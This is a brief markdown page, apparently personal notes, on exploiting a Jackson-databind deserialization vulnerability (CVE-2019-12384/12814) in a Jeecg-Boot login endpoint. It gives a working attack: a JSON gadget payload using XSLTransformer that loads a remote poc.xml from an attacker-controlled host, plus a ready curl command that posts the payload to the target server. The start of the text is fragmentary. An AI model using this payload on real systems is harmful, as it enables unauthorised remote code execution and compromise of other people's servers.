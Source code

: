 # read file

not have such

```log
Could not resolve type id 'org.jdom2.transform.XSLTransformer' as a subtype 
```

reference [link](https://wiki.96.mk/Web%E5%AE%89%E5%85%A8/FasterXML%20jackson/%EF%BC%88CVE-2019-12384%EF%BC%89%EF%BC%88%20CVE-2019-12814%EF%BC%89FasterXML%20jackson-databind%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/)

target = "/Users/xiangjiahao/minicom.log"

## target server

```shell
curl -X POST "http://192.168.1.102:8080/jeecg-boot/sys/login" -H  "accept: */*" -H  "Content-Type: application/json" -d "{  \"captcha\": \"string\",  \"password\": \"jeecg\",  \"username\": \"jeecg\"}"
```

## payload

the deserialize payload

```java
String payload = "[\"org.jdom2.transform.XSLTransformer\", \"http://192.168.85.130:4444/poc.xml\"]";
mapper.readValue(payload, Object.class);
```

how to use the curl command to send the payload to the target server

```shell
curl -X POST "http://192.168.1.102:8080/jeecg-boot/sys/login" -H  "accept: */*" -H  "Content-Type: application/json" -d "[\"org.jdom2.transform.XSLTransformer\", \"http://192.168.85.130:4444/poc.xml\"]"

```
